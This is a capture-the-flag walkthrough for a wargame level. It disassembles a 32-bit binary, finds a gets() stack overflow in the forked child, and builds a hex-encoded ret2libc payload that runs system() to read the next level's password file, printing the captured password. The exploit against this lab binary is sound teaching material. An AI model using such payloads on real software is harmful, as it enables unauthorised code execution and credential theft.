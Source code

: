 # level04 walkthrough

Given 32-bit binary, lets disassemble the main function:

    Dump of assembler code for function main:
    0x080486c8 <+0>:	push   ebp
    0x080486c9 <+1>:	mov    ebp,esp
    0x080486cb <+3>:	push   edi
    0x080486cc <+4>:	push   ebx
    0x080486cd <+5>:	and    esp,0xfffffff0
    0x080486d0 <+8>:	sub    esp,0xb0
    0x080486d6 <+14>:	call   0x8048550 <fork@plt>
    0x080486db <+19>:	mov    DWORD PTR [esp+0xac],eax
    0x080486e2 <+26>:	lea    ebx,[esp+0x20]
    0x080486e6 <+30>:	mov    eax,0x0
    0x080486eb <+35>:	mov    edx,0x20
    0x080486f0 <+40>:	mov    edi,ebx
    0x080486f2 <+42>:	mov    ecx,edx
    0x080486f4 <+44>:	rep stos DWORD PTR es:[edi],eax
    0x080486f6 <+46>:	mov    DWORD PTR [esp+0xa8],0x0
    0x08048701 <+57>:	mov    DWORD PTR [esp+0x1c],0x0
    0x08048709 <+65>:	cmp    DWORD PTR [esp+0xac],0x0
    0x08048711 <+73>:	jne    0x8048769 <main+161>

In the first part we can see buffer allocation on stack and a fork function call which is going to create second process, split stack in half and continue execution for both processes from the next instruction. fork function returns 0 for the parent process and a non zero value for the child, this value is being stored in `esp+0xac`. Next we can see a buffer being cleared for both processes and a conditional jump to `main+161` for the parent process.
Let's check what's happening in the child process first:


    0x08048713 <+75>:	mov    DWORD PTR [esp+0x4],0x1
    0x0804871b <+83>:	mov    DWORD PTR [esp],0x1
    0x08048722 <+90>:	call   0x8048540 <prctl@plt>
    0x08048727 <+95>:	mov    DWORD PTR [esp+0xc],0x0
    0x0804872f <+103>:	mov    DWORD PTR [esp+0x8],0x0
    0x08048737 <+111>:	mov    DWORD PTR [esp+0x4],0x0
    0x0804873f <+119>:	mov    DWORD PTR [esp],0x0
    0x08048746 <+126>:	call   0x8048570 <ptrace@plt>
    0x0804874b <+131>:	mov    DWORD PTR [esp],0x8048903
    0x08048752 <+138>:	call   0x8048500 <puts@plt>
    0x08048757 <+143>:	lea    eax,[esp+0x20]
    0x0804875b <+147>:	mov    DWORD PTR [esp],eax
    0x0804875e <+150>:	call   0x80484b0 <gets@plt>
    0x08048763 <+155>:	jmp    0x804881a <main+338>

Here we can immediately spot a gets function call that reads a string of ANY size into buffer at `esp+0x20` so it can be exploited to override the return address.

---
**NOTE**

Since we're going to exploit the child process we need to run `set follow-fork-mode child` in gdb to examine the stack

---

Meanwhile in the main process there is an infinite loop that checks the status of the child process and it's eip address, if it detects that eip address is set to 0xb (exec syscall) then it kills it. This means that we can't use the default shellcode and we need to find something else, lets check which functions are linked to the binary:

    (gdb) info function system
    All functions matching regular expression "system":

    Non-debugging symbols:
    0xf7e6aed0  __libc_system
    0xf7e6aed0  system
    0xf7f48a50  svcerr_systemerr

Here we can see libc system function which can be used in ret2libc attack.
Lets calculate the return address as usual 0xb0-0x20+3*4=156 bytes.
Now let's generate shellcode using the [helper script](Resources/pwner.py) and execute it:

    python -c 'print(b"\x63\x61\x74\x20\x2f\x68\x6f\x6d\x65\x2f\x75\x73\x65\x72\x73\x2f\x6c\x65\x76\x65\x6c\x30\x35\x2f\x2e\x70\x61\x73\x73\x00\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\xd0\xae\xe6\xf7\x70\xeb\xe5\xf7\x60\xdd\xff\xff")' | env -i PWD=$PWD SHELL=$SHELL SHLVL=$SHLVL LINES=211 COLUMNS=53 /home/users/level04/level04
    Give me some shellcode, k
    3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN

Et voilà!
